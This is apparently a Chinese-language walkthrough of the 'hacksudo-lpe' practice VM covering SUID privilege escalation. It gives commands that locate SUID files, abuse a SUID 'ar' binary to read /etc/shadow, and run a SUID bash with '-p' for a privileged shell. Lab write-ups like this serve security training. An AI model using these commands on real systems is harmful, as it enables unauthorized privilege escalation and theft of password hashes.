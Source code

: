 # 前言

靶场：`hacksudo-lpe`的后几个`challenge`

基于上篇靶场`hacksudo-ple`的`sudo`提权

# SUID文件提权

## ar文件提权

使用`find`寻找具有SUID权限的文件

```shell
find / -perm -u=s -type f 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\1.jpg)

查看`ar`的SUID用法

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\2.jpg)

```shell
sudo install -m =xs $(which ar) .

TF=$(mktemp -u)
LFILE="/etc/shadow"
./ar r "$TF" "$LFILE"
cat "$TF"
```

可以看到用法是越权查看文件

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\3.jpg)

## sh提权

这个文件名可能不一样，但是性质是一样的，也就是名称不同。

使用`find`寻找具有SUID权限文件

```shell
find / -perm -4000 -exec ls -al {} \; 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\4.jpg)

因为是可执行文件，使用`strings`查看，因为内容太多，这里我是先直接执行，发现另起一个`shell`终端，并且还是当前用户的终端，所以，猜测是执行`sh`

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\5.jpg)

```shell
./bash -p
```
